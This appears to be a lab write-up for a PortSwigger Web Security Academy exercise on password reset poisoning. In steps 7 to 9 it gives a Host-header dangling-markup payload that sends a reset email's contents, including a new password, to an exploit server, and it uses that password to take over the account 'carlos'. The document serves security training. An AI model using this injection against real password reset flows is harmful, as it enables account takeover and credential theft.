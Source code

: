 # Password reset poisoning via dangling markup

## Description

[This lab](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup) is vulnerable to password reset poisoning via dangling markup.

## Reproduction

1. Go to the login page and request a password reset for your own account.
2. Go to the exploit server and open the email client to find the password reset email. Observe that the link in the email simply points to the generic login page and the URL does not contain a `password reset` token. Instead, a new password is sent directly in the email body text.
3. In the proxy history, study the response to the `GET /email` request. Observe that the HTML content for your email is written to a string, but this is being sanitised using the `DOMPurify` library before it is rendered by the browser.
4. In the email client, notice that you have the option to view each email as raw HTML instead. Unlike the rendered version of the email, this does not appear to be sanitised in any way.
5. Send the `POST /forgot-password` request to Burp Repeater. Observe that tampering with the domain name in the Host header results in a server error. However, you are able to add an arbitrary, non-numeric port to the `Host` header and still reach the site as normal. Sending this request will still trigger a password reset email:

```text
Host: lab-id.web-security-academy.net:arbitraryport
```
    
6. In the email client, check the raw version of your emails. Notice that your injected port is reflected inside a link as an unescaped, single-quoted string. This is later followed by the new password.
7. Send the `POST /forgot-password` request again, but this time use the port to break out of the string and inject a dangling-markup payload pointing to your exploit server:

```text
Host: lab-id.web-security-academy.net:'<a href="//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/?
```
    
8. Check the email client. You should have received a new email in which most of the content is missing. Go to the exploit server and check the access log. Notice that there is an entry for a request that begins `GET /?/login'>[…]`, which contains the rest of the email body, including the new password.
9. In Burp Repeater, send the request one last time, but change the `username` parameter to `carlos`. Refresh the access log and obtain Carlos's new password from the corresponding log entry.
10. Log in as `carlos` using this new password to solve the lab.

## PoC

<iframe title="Password reset poisoning via dangling markup" src="https://tube.spdns.org/videos/embed/2e609dbc-afc9-4dba-a7c7-958653285d05" allowfullscreen="" sandbox="allow-same-origin allow-scripts allow-popups" width="560" height="315" frameborder="0"></iframe>

----

## Exploitability

An attacker will need to abuse the vulnerability and log in to Carlos's account. 
Any emails sent to `wiener:peter` can be read via the email client on the exploit server.
